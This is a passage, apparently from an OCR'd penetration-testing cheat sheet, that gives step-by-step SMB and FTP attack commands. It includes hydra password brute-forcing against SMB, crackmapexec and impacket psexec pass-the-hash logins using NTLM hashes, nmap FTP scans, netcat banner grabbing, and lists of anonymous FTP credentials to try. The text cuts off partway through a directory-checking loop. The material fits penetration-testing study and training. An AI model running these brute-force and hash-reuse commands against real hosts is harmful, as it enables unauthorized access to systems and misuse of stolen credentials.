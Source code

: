 ```bash
hydra -L users.txt -P /usr/share/wordlists/fasttrack.txt smb://$IP
```

**Step 2: Hash-Based Attacks**
```bash
# If NTLM hashes are found, test pass-the-hash
crackmapexec smb $IP -u username -H ntlm_hash
crackmapexec smb $IP -u username -H lm_hash:ntlm_hash

# PSExec with hash
python3 /usr/share/doc/python3-impacket/examples/psexec.py username@$IP -hashes lm_hash:ntlm_hash
```

## FTP Enumeration and Exploitation

### Phase 1: FTP Service Discovery

**Step 1: FTP Detection and Banner Grabbing**
```bash
# FTP service detection
IP=192.168.1.100  # Edit this line only
nmap -Pn -p 21 -sC -sV $IP

# Manual banner grabbing
nc -nv $IP 21
telnet $IP 21

# FTP bounce scan detection
nmap --script ftp-bounce $IP -p 21
```

**Step 2: Anonymous Access Testing**
```bash
# Anonymous FTP access attempts
ftp $IP
# Try these credentials:
# anonymous:anonymous
# ftp:ftp
# anonymous:
# ftp:

# Alternative anonymous access
curl ftp://$IP
wget ftp://$IP
```

### Phase 2: FTP Content Enumeration

**Step 1: Anonymous FTP Exploration**
```bash
# Once connected, comprehensive exploration
binary
passive
ls -la
ls -la *
pwd
cd /
ls -la
cd ..
ls -la

# Common directories to check
dirs=("var" "etc" "home" "tmp" "opt" "usr" "www" "web" "backup" "ftp" "pub")
for dir in "${dirs[@]}"; do
    echo "Checking directory: $dir"
```